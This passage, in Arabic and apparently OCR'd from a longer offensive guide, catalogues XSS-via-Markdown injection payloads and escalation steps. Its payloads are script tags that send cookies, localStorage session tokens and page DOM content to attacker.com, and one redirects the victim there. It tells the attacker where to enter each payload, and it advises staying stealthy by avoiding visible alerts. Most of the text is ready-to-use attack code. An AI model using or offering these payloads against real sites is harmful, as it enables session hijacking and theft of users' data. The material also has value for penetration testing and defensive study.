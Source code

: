 6. **تأكيد السياق وتصعيد الاستغلال (اختياري)**:
   - استخدم حقن تكشف سياق التنفيذ (مثل `<img src=x onload="fetch('http://attacker.com/log?d='+document.domain)">`).
   - إذا نجحت الحقن، جرب هجمات متقدمة مثل:
     - سرقة بيانات حساسة (مثل `localStorage.getItem('token')`).
     - التلاعب بالصفحة (مثل إنشاء نموذج مزيف).
     - تنفيذ إجراءات المستخدم (مثل إرسال طلبات POST).
   - حافظ على التخفي بتجنب التنبيهات البصرية إذا كنت تستهدف سياقات حساسة.

---

## جميع المحاولات الممكنة للحقن المستخدمة في XSS عبر Markdown
في الحقن المستخدمة في XSS عبر Markdown، المحاولات تركز على إدراج وسوم HTML أو روابط JavaScript ضمن محتوى Markdown لتنفيذ شيفرات ضارة. سأقسم المحاولات إلى فئتين:
1. **الحقن اليدوية**: للاختبار اليدوي عبر نقاط الإدخال العرضة.
2. **الحقن للأتمتة**: للاستخدام مع سكربتات أو أدوات آلية.

### 1. الحقن اليدوية
تُستخدم هذه الحقن عند اختبار الثغرة يدويًا عبر إدخال محتوى Markdown في حقول النماذج، معلمات URL، أو منشورات. الهدف هو تنفيذ JavaScript عبر تحويل Markdown إلى HTML.

#### أ. حقن باستخدام وسوم HTML
إدراج وسوم HTML مباشرة ضمن Markdown لتنفيذ JavaScript.
- **الحقن**: `<script>alert('XSS')</script>`
  - **الإدخال**: أدخل في حقل تعليق: `<script>alert('XSS')</script>`
  - **كيف يعمل**: ينفذ تنبيهًا عند عرض الناتج كـ HTML.
  - **متى يُستخدم؟**: لتأكيد وجود ثغرة XSS.
- **الحقن**: `<script>fetch('http://attacker.com/log?c='+encodeURIComponent(document.cookie))</script>`
  - **الإدخال**: أدخل في منشور Markdown: `<script>fetch('http://attacker.com/log?c='+encodeURIComponent(document.cookie))</script>`
  - **كيف يعمل**: يرسل ملفات تعريف الارتباط إلى خادم المهاجم.
  - **متى يُستخدم؟**: لسرقة بيانات الجلسة.
- **الحقن**: `<script>document.location='http://attacker.com'</script>`
  - **الإدخال**: `https://example.com/?comment=<script>document.location='http://attacker.com'</script>`
  - **كيف يعمل**: يعيد توجيه المستخدم إلى موقع ضار.
  - **متى يُستخدم؟**: لإعادة التوجيه الخبيث.
- **الحقن**: `<script>fetch('http://attacker.com/log', {method: 'POST', body: document.body.innerHTML})</script>`
  - **الإدخال**: أدخل في وصف الملف الشخصي: `<script>fetch('http://attacker.com/log', {method: 'POST', body: document.body.innerHTML})</script>`
  - **كيف يعمل**: يرسل محتوى الصفحة إلى الخادم.
  - **متى يُستخدم؟**: لاستخراج محتوى DOM.
- **الحقن**: `<script>new Image().src='http://attacker.com/log?s='+encodeURIComponent(localStorage.getItem('token'))</script>`
  - **الإدخال**: أدخل في حقل تعليق: `<script>new Image().src='http://attacker.com/log?s='+encodeURIComponent(localStorage.getItem('token'))</script>`
  - **كيف يعمل**: يرسل رمز الجلسة من `localStorage`.
  - **متى يُستخدم؟**: لسرقة بيانات التخزين.
